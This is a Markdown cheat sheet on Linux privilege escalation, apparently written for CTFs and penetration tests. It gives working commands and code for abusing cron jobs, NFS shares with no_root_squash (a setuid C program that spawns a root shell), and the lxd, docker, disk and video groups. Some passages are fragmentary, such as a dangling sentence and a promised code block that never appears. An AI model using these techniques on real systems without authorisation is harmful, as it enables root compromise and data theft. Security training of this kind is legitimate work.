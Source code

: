# Linux Privilege Escalation

### Cron Jobs

Viewing `/etc/crontab` is of course the classic.  The cron job format is in the following:

```
<minute> <hour> <day of month> <month> <day of week> <user> <command>
```

Ideally we'll have a vulnerable command being run that we can then exploit.  The following files and commands are worth enumerating to see if anything's been misconfigured or the cron itself is visible publicly.

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

In some situation, cron jobs may be hidden from all users, in a users own crontab.  Running the below script will parse the active processes every second and output any changes, which may indicate a hidden cron job.

```bash
#!/bin/bash
IFS=$'\n'

old=$(ps -eo command)
while true; do
  new=$(ps -eo command)
  diff <( echo "$old" ) <( echo "$new" )
  sleep 1
  old=$new
done
```

If the above fails to find anything, then the process may be too short lived to find.  In this case, [Dominic Breuker's pspy](https://github.com/DominicBreuker/pspy) will allow more focused enumeration.  Ideally a writeable file or script may form part of the cron jobs execution.

It is highly recommended to refer to the bible of Linux wildcard injection: [Unix Wildcards Gone Wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) if the running processes utilizes wildcards.  This is quite common in CTF's as well as real-world systems.

### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges.

```
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to your filesystem
mount 192.168.1.101:/ /tmp/
```

#### no-user-squash

#### no-root-sqash

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

There are

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
    setreuid(0, 0);
    printf("ID: %d\n", geteuid());
    execve("/bin/sh", NULL, NULL);
}
```

Note that this type of exploit will not always work.  The above sets the uid, but upon actually executing the script, you may find that you still maintain the same privileges.  I believe that bash can drop permissions to what's known as the effective-uid to avoid suid vulnerabilities as above.  In this case, the best bet is to use the below code which just goes overboard.

You could also just generate a binary using msfvenom if desired.

### Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of.  From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```
find / -group groupname 2>/dev/null
```

Secondly, it's probably a good idea to refer to the following

[Debian Recommendations](https://www.gitbook.com/book/reboare/booj-security/edit#)

##### adm

The admin group, adm, allows the user to view logs in `/var/log`.  Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

##### lxd

If a member of the lxd gorup, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

By doing this we effectively have root permissions.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

##### docker

In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```

Similarly, we can use the [alpine](https://github.com/gliderlabs/docker-alpine/tree/2127169e2d9dcbb7ae8c7eca599affd2d61b49a7) docker image, if no useable containers are uploaded to the host.

##### disk

The disk group gives the user full access to any block devices contained within `/dev/`.  Since `/dev/sda1` will in general be the global file-system, and the disk group will have full read-write privileges to this device:

```
brw-rw---- 1 root disk 8, 1 Feb  5 13:38 /dev/sda1
```

From this we can use debugfs to enumerate the entire disk with effectively root level privileges.  We also have full read-write access to the disk block files.  We can extricate these or write arbitrary data to them.

##### video

The video group controls access to graphical output devices.  The output to screen is stored within the [framebuffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image, using the following [script](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/):

```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

We can run the above script in the following manner:

```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
./raw2png $width $height < /tmp/fb0.raw > /tmp/fb0.png
```

This isn't directly exploitable, but utilized correctly can allow you to view a user with physical access' session and potentially leak information this way.  On modern systems it's a slight pipe dream.

[Alternative Script](ftp://ftp.embeddedarm.com/ts-arm-sbc/ts-7350-linux/samples/bmptoraw.c)

